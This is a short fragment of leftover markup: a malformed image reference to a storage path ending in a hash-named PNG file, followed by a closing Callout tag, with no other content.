

</Callout>
